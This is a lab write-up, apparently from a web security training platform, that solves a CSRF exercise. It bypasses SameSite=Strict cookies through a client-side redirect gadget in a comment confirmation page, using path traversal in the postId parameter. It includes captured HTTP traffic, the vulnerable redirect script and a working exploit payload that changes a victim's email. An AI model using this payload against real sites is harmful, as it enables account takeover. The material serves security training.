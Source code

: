 This lab's change email function is vulnerable to CSRF. To solve the lab, perform a CSRF attack that changes the victim's email address. You should use the provided exploit server to host your attack.

You can log in to your own account using the following credentials: wiener:peter 

# Solution

POST /login response:
```http
HTTP/2 302 Found
Location: /my-account?id=wiener
Set-Cookie: session=VTthQdX4p7PndBTGsTHvSxmzlCB0xBma; Secure; HttpOnly; SameSite=Strict
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```
- SameSite=Strict

POST Change email request:
```http
POST /my-account/change-email HTTP/2
Host: 0a470025038aeae58050769200450032.web-security-academy.net
Cookie: session=VTthQdX4p7PndBTGsTHvSxmzlCB0xBma
...
email=test%40test.net&submit=1
```
- response 302 Found


Test `GET /my-account/change-email?email=test%40test.net&submit=1`
- response 302 Found

## Client-side Redirect Gadget
There is a comment function in the site.

1. POST comment
```http
POST /post/comment HTTP/2
Host: 0a470025038aeae58050769200450032.web-security-academy.net
...
postId=3&comment=test&name=wiener&email=test%40test.net&website=https%3A%2F%2Fsome-site.com
```
- 302 Found


2. Redirect request
```http
GET /post/comment/confirmation?postId=3 HTTP/2
Host: 0a470025038aeae58050769200450032.web-security-academy.net
Cookie: session=VTthQdX4p7PndBTGsTHvSxmzlCB0xBma
```

Response 200 OK
```html
...
<script src='/resources/js/commentConfirmationRedirect.js'></script>
    <script>redirectOnConfirmation('/post');</script>
        <h1>Thank you for your comment!</h1>
        <p>Your comment has been submitted. You will be redirected momentarily.</p>
        ...
```


GET /resources/js/commentConfirmationRedirect.js
```js
HTTP/2 200 OK
Content-Type: application/javascript; charset=utf-8
Cache-Control: public, max-age=3600
X-Frame-Options: SAMEORIGIN
Content-Length: 231

redirectOnConfirmation = (blogPath) => {
    setTimeout(() => {
        const url = new URL(window.location);
        const postId = url.searchParams.get("postId");
        window.location = blogPath + '/' + postId;
    }, 3000);
}
```
- Note that `blogPath = /post` so we need to use `../` in postId


## Deliver exploit

```html
<script>
document.location = 'https://0a470025038aeae58050769200450032.web-security-academy.net/post/comment/confirmation?postId=../my-account/change-email?email=changed%40test.net%26submit=1'
</script>
```
- `../` to traverse back to root path
- `%26submit=1 = &submit=1` - need to URL encode `&` 
